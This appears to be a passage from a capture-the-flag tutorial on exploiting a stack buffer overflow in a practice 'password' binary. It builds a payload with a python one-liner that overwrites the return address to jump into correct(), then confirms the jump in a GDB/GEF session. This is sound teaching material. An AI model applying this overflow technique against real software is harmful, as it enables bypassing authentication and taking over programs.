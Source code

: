 ```sh
```

As we can see in the assembler dump above, `0x0000555555555175` is the address of the first line of code in `correct()`, so all we need to do now is change the return address to `0x0000555555555175`. Let's use the following python code to modify the return address. (Note that the address will probably be different on your computer, so don't run this next line of code without first changing the address to be the one you found on your computer.)

```sh
$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*24 + b'\x75\x51\x55\x55\x55\x55\x00\x00')" > test
```

Note that we must convert the big-endian value `0x0000555555555175` into its little-endian equivalent when we use this command. When we run the program inside GDB using the test file as input, we can actually see that we're jumping into the `correct()` function when the `ret` instruction is executed. We can use the `break` or `b` command to setup a breakpoint, which will allow us to pause the program and see what's going on.

```sh
$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*24 + b'\x75\x51\x55\x55\x55\x55\x00\x00')" > test

$ gdb password
GNU gdb (Debian 10.1-1.4) 10.1
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
76 commands loaded for GDB 10.1 using Python engine 3.9
[*] 4 commands could not be loaded, run `gef missing` to know why.
Reading symbols from password...
(No debugging symbols found in password)
gef➤  b *main+114
Breakpoint 1 at 0x1206
gef➤  run < test
Starting program: /home/nihaal/Desktop/ctf-courses/Pwn/PWN 200/password < test
Enter the password: Invalid password.

Breakpoint 1, 0x0000555555555206 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x00007ffff7edded3  →  0x5577fffff0003d48 ("H="?)
$rdx   : 0x0
$rsp   : 0x00007fffffffdfb8  →  0x0000555555555175  →  <correct+0> push rbp
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00005555555592a0  →  "Enter the password: Invalid password.\n"
$rdi   : 0x00007ffff7fb0670  →  0x0000000000000000
$rip   : 0x0000555555555206  →  <main+114> ret
$r8    : 0x12
$r9    : 0x00007ffff7fadbe0  →  0x000055555555a6b0  →  0x0000000000000000
```